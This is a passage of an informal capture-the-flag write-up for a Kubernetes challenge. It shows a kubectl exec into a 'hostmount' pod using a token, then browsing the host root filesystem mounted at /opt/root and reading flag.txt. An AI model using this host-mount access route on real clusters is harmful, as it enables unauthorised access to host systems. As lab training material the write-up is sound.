didnt work and i thought i'd done something wrong again but i realised the token was in the wrong place 

./kubectl exec -it hostmount --token=$token -- sh 

```



### Flag.txt
```
So the root is attached within the pod as /opt/root 

the cd root 

ls 
```

```
cat flag.txt

[REDACTED]
```
